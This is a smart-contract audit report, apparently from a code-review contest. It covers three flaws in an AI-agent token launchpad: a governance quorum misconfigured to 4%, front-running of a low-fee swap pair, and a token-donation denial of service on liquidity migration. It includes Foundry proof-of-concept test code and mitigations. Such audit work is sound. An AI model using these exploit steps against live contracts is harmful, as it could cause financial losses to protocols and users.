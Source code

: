 ### [S-#] TITLE (Root Cause + Impact)

**Description:** 

**Impact:** 

**Proof of Concept:**

**Recommended Mitigation:** 

### [H-1] Adversary can win proposals with voting power as low as 4%

**Description:** The expected quorum for proposals is 25% of the voting power.

An attacker can execute any proposal with as low as 4% of the voting power.

Proposals that don’t get enough quorum are expected to fail because of that threshold, but the bug bypasses that protection by a 6.25x lower margin. Deeming High severity as a form of executing malicious proposals against expectations.

**Proof of Concept:** The error is in the 4 in the line GovernorVotesQuorumFraction(4). It doesn’t represent 1/4th of supply but 4/100 actually.

```js
    constructor(
        string memory _name,
        IVotes _token,
        Agent _agent
    )
        Governor(_name)
        GovernorVotes(_token)
@>      GovernorVotesQuorumFraction(4) // quorum is 25% (1/4th) of supply
    {
        agent = _agent;
    }
```

Ref: https://github.com/code-423n4/2025-01-iq-ai/blob/main/src/TokenGovernor.sol#L55

This can be seen in the GovernorVotesQuorumFraction OpenZeppelin contract that is inherited.

Note how the quorumDenominator() is 100 by default and how the quorum() is calculated as supply * numerator / denominator.

In other words, 4% for the protocol governor (instead of 25%).

```js
/**
 * @dev Returns the quorum denominator. Defaults to 100, but may be overridden.
 */
function quorumDenominator() public view virtual returns (uint256) {
    return 100;
}
/**
 * @dev Returns the quorum for a timepoint, in terms of number of votes: `supply * numerator / denominator`.
 */
function quorum(uint256 timepoint) public view virtual override returns (uint256) {
    return (token().getPastTotalSupply(timepoint) * quorumNumerator(timepoint)) / quorumDenominator();
}
```
Ref: https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v5.2.0/contracts/governance/extensions/GovernorVotesQuorumFraction.sol#L62-L74

**Recommended Mitigation:** 

```diff
constructor(
        string memory _name,
        IVotes _token,
       Agent _agent
    )
        Governor(_name)
        GovernorVotes(_token)
-       GovernorVotesQuorumFraction(4) // quorum is 25% (1/4th) of supply
+       GovernorVotesQuorumFraction(25) // quorum is 25% (1/4th) of supply
    {
        agent = _agent;
    }
```

### [M-1] Anyone can deploy a new FraxSwapPair with a Low fee incurring losses to the protocol

**Description:** The `LiquidityManager::moveLiquidity` function is responsible for moving liquidity to a FraxSwapPair, If a FraxSwapPair does not already exist, it creates a new one with a default fee of 1%. If a pair already exists, it transfers liquidity to that pair.
A malicious user can deploy a `FraxSwapPair` with a very low fee (e.g., 0.01%) before the `moveLiquidity` function is called. When the `moveLiquidity` function is executed, it will use this low-fee pair instead of creating a new one with the default 1% fee. This results in a loss of fees for the protocol, as swaps will now incur a much lower fee.

**Proof of Concept:** Change the Fee in FraxSwapPair deployment from 1 to 100 to change fee from 0.01% to 1%:

```js
function test_low_fee() public {
        setUpFraxtal(12_918_968);
        address whale = 0x00160baF84b3D2014837cc12e838ea399f8b8478;
        uint256 targetCCYLiquidity = 6_100_000e18;
        factory = new AgentFactory(currencyToken, 0);
        factory.setAgentBytecode(type(Agent).creationCode);
        factory.setGovenerBytecode(type(TokenGovernor).creationCode);
        factory.setLiquidityManagerBytecode(type(LiquidityManager).creationCode);
        //factory.setTargetCCYLiquidity(1000e18);
        factory.setInitialPrice(0.1e18);
        vm.startPrank(whale);
        currencyToken.approve(address(factory), 1e18);
        agent = factory.createAgent("AIAgent", "AIA", "https://example.com", 0);
        token = agent.token();
        // Buy from the bootstrap pool
        manager = LiquidityManager(factory.agentManager(address(agent)));
        bootstrapPool = manager.bootstrapPool();
        currencyToken.approve(address(bootstrapPool), 10_000_000e18);
        bootstrapPool.buy(6_000_000e18);
vm.stopPrank();
        // the above code is setup()
// griefer buys from `BootstrapPool` to get minimum liquidity required to create a pool
        address _griefer = makeAddr("griefer");
        deal(address(currencyToken), _griefer, 1000 ether);
        vm.deal(_griefer, 10 ether);
        vm.startPrank(_griefer);
        currencyToken.approve(address(bootstrapPool), 10 ether);
        uint256 tknamt = bootstrapPool.buy(5 ether);
//griefer creates `FraxSwapPair`
        IFraxswapPair fraxswapPair =
            IFraxswapPair(manager.fraxswapFactory().createPair(address(currencyToken), address(token), 1)); // Fee set here
        currencyToken.transfer(address(fraxswapPair), 5 ether);
        token.transfer(address(fraxswapPair), tknamt);
        fraxswapPair.mint(address(_griefer));
// Move liquidity
        manager.moveLiquidity();
        // Swap from the Fraxswap pool
        //token(0) is AI token
       //token(1) is currency token
       // griefer swaps 1 ether worth of his currency token for AI token
        fraxswapPair = IFraxswapPair(manager.fraxswapFactory().getPair(address(currencyToken), address(token)));
        uint256 amountOut = fraxswapPair.getAmountOut(1e18, address(currencyToken));
        currencyToken.transfer(address(fraxswapPair), 1e18);
        if (fraxswapPair.token0() == address(currencyToken)) {
            fraxswapPair.swap(0, amountOut, address(_griefer), "");
        } else {
            fraxswapPair.swap(amountOut, 0, address(_griefer), "");
        }     
        vm.stopPrank();
 }
```

**Recommended Mitigation:** This issue exists for every new Agent created in AgentFactory and it is not feasible for the owner to check fee amount on every pair so, consider creating a new FraxSwapPair with the desired fee in AgentFactory::createAgent itself to avoid these fee discrepancies.

Consider any design change which will prevent arbitrary users to set fee.


### [M-2] Attacker can DOS liquidity migration in LiquidityManager.sol

**Description:** The vulnerability arises because the function relies on the raw ERC20 balance of the currency token held by the contract to calculate the amount of agent token liquidity to add. A malicious attacker can exploit this by injecting extra currency tokens into the LiquidityManager, artificially inflating the calculated liquidity amount and causing the function to fail.

**Background:** 

`LiquidityManager::moveLiquidity()`:
1. This function is responsible for migrating liquidity from the BootstrapPool to a FraxswapPair (a decentralized exchange pair).
2. It calculates the amount of agent tokens to add as liquidity based on the currency token balance held by the contract.

`Vulnerability`:
1. The function uses the raw ERC20 balance of the currency token to determine the liquidity amount:

```solidity
uint256 currencyAmount = currencyToken.balanceOf(address(this));
uint256 liquidityAmount = (currencyAmount * 1e18) / price;
```
2. This calculation assumes that the only currency tokens in the contract are those from the BootstrapPool.
3. However, an attacker can directly transfer extra currency tokens into the LiquidityManager, artificially inflating the currencyAmount and, consequently, the liquidityAmount.

`Exploit`:
1. When the inflated liquidityAmount is used to transfer agent tokens to the FraxswapPair, the contract may not have enough agent tokens to cover the transfer.
2. This results in an ERC20InsufficientBalance error, causing the function to revert and preventing liquidity migration.


**Impact:** Protocol Disruption: The migration process is a core functionality for moving liquidity from the bootstrap pool to the Fraxswap pair.
User Harm: Disrupted liquidity migration can result in poor market pricing or loss of confidence, potentially causing users to incur losses when trading or exiting positions.
Denial-of-Service (DoS): An attacker can exploit this vulnerability to prevent liquidity migration, indirectly impacting the protocol’s ability to function as intended.

**Recommended Mitigation:** Calculate the liquidity amount based on the currency amount that was received by the bootstrap pool. Proposed fix:
```js
uint256 currencyAmount = _reserveCurrencyToken; 
```
That way the attack wouldn’t work, and there’s also no risk of tokens getting left in the manager contract as you transfer them to the agent either way:
```js
        agentToken.safeTransfer(address(agent), agentToken.balanceOf(address(this)));
        currencyToken.safeTransfer(address(agent), currencyToken.balanceOf(address(this)));
```